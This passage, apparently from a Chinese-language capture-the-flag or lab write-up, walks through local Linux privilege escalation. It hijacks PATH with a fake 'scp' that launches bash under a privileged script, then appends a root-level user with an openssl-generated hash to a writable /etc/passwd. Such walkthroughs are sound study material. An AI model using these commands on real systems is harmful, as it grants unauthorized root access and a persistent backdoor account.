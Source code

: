 那么修改环境变量

```shell
export PATH=/tmp:$PATH
echo $PATH

echo "/bin/bash" > scp
chmod +x scp
```

然后执行脚本即可`/opt/s`

![](./pic-2/23.jpg)



查看`/etc/passwd`的权限，发现该文件具有写权限的，那么就可以添加一个具有`root`权限的用户，需要构造

使用`openssl`生成密码

```shell
openssl passwd -salt 123 -1 123
```

![](./pic-2/24.jpg)

```shell
#把x改为加密后的密码，root改为随便的用户名 
root:x:0:0:root:/root:/bin/bash

pig:$1$123$nE5gIYTYiF1PIXVOFjQaW/:0:0:test:/root:/bin/bash

echo 'pig:$1$123$nE5gIYTYiF1PIXVOFjQaW/:0:0:test:/root:/bin/bash' >> /etc/passwd
```

这时候直接切换就`ok`了

![](./pic-2/25.jpg)
